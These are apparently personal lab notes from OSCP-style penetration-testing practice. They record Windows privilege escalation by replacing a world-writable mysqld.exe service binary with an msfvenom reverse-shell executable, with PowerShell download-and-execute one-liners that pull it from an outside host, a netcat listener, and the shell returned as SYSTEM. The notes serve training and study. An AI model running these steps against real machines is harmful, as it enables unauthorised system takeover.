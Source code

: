 -  modifiable service path
- everyone can write to mysqld.exe, can modify this file by grabbing a reverse shell and restarting the service
- unable to restart the service manually so going to have to setup reverse shell and shutoff machine again

![[official working chisel from ms01 to ms02.png]]


```shell
#making new msfvenom to replace mysqld.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.118.101 LPORT=4342 -f exe -o mysqld.exe
```

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/msqld.exe reverse shell.png]]

```
# moving the real msqld.exe to realmsqld.exe
```

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/realmsqld.exe movement.png]]

- Going to transfer new reverse shell over to take the realmysqld.exe's place

```shell

IEX (New-Object System.Net.WebClient).Downloadstring(‘[http://172.16.118.101:4430/mysqld.exe](http://172.16.118.101:4430/mysqld.exe)’)  


IEX (New-Object Net.WebClient).downloadString('http://172.16.118.101:4430/mysqld.exe')


powershell "IEX(New-Object Net.WebClient).downloadString('http://172.16.118.101:4430/mysqld.exe')"
echo IEX(New-Object Net.WebClient).DownloadString('http://172.16.118.101:4430/mysqld.exe')
```

Copied from Kali Machine to Location in file explorer using drag and drop through xfreerdp
![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/copied and pasted reverse shell mysqld.png]]

```shell
# setup nc.exe listener on ms01
C:\Users\BOB~1.MAR\Desktop\WSO2AM~1.0\WSO2AM~1.0>nc.exe -lvnp 4342
nc.exe -lvnp 4342
listening on [any] 4342 ...

# going to shutdown /r to restart service due to not being able to restart service manually

# on as system
C:\Users\BOB~1.MAR\Desktop\WSO2AM~1.0\WSO2AM~1.0>nc.exe -lvnp 4342
nc.exe -lvnp 4342
listening on [any] 4342 ...
connect to [172.16.118.101] from (UNKNOWN) [172.16.118.102] 49687

whoami
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```
